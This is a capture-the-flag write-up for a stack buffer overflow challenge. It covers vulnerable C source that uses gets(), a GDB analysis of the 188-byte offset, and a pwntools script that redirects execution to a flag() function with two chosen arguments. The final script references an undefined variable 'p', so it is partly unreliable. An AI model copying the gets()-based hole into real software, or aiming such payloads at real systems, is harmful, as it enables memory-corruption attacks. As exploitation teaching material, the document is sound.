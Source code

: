 [Back](PicoFrontPage.md)

# Overflow 2

### Tools
* GEF-GDB
* Pwntools - Python3
* Some Python tools
* Your favourite text editor

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Some important points:
* Different to overflow-1 because flag function takes arguments
* Calls `gets()` again

I do recommend using a disassembler and debugger to figure out and visualize these as a little challenge though. 

### Analysis

#### Static

So, like overflow-1, the program calls `gets()` so we can overflow that and take control of the return address (feed it `flag()` function's address).
If we `disassemble vuln`, we can see the stack build-up when the `vuln()` function is called.

<!-- disasvulnoverflow2 -->
![Image of GEF](../Images/disasvulnoverflow2.png)

So, piecing all of it together, we can see the stack would probably look something like this:

<!-- StackOverflow2 -->
![Image of Stack](../Images/StackOverflow2.png)

Doing the calculation: `0xb4 + 0x4 + 0x4 = 0xbc`
Convert it to bytes through:
`
python
0xbc
`
And it should return 188 bytes

#### Dynamic

Let's confirm if what we assumed is right through dynamic analysis.
Use the cyclic tool to get a string to feed to the program: `cyclic 200`

Run GDB for the program: `gdb ./vuln` and then `run`

Feed the string to the input and then analyze!

<!-- OverflowedOverflow2 -->
![Image of overflowed](../Images/OverflowedOverflow2.png)

We see that `waab` or `0x62616177` is what is stored as the return address.
And so using `cyclic -l waab` it confirms that it is 188 bytes to reach `$eip`.

#### Arguments

Arguments are actually thrown onto the stack before the instruction pointer.

We can `disassemble flag` to analyze the arguments for the `flag()` function.

<!-- Overflow2args -->
![Image of args](../Images/Overflow2args.png)

This can also be seen through a disassembler.

<!-- Overflow2argsdisassembler -->
![Image of argsdisassembler](../Images/Overflow2argsdisassembler.png)
<!-- Overflow2argsdisassembler2 -->
![Image of argsdisassembler2](../Images/Overflow2argsdisassembler2.png)

We can see that the arguments `0xdeadbeef` and `0xc0ded00d` are stored on the stack at `ebp + 0x8` and `ebp + 0xc`, respectively.
To help you visualize:

<!-- StackOverflow2WithArgs -->
![Image of StackOverflow2WithArgs](../Images/StackOverflow2WithArgs.png)

* *"What is something?"*
Truth is, I don't know, I'm just a beginner like you guys.

Now, do the classic, find out the `flag()` address and let's get scripting.

### Exploit

Final script:
```python
from pwn import *

proc = process('./vuln')

# addr and arg variables
addr = 0x80485e6
arg0 = 0xDEADBEEF
arg1 = 0xC0DED00D

# create payload of 188 + return address + 4 bytes + arg1 + arg2
payload = b'A'*188 + p32(addr) + b'A'*4 + p32(arg0) + p32(arg1)

p.recvuntil(b'Please enter your string:')

p.sendline(payload)

p.interactive()
```

Run the script and you should win.

[Overflow 1](overflow1writeup.md)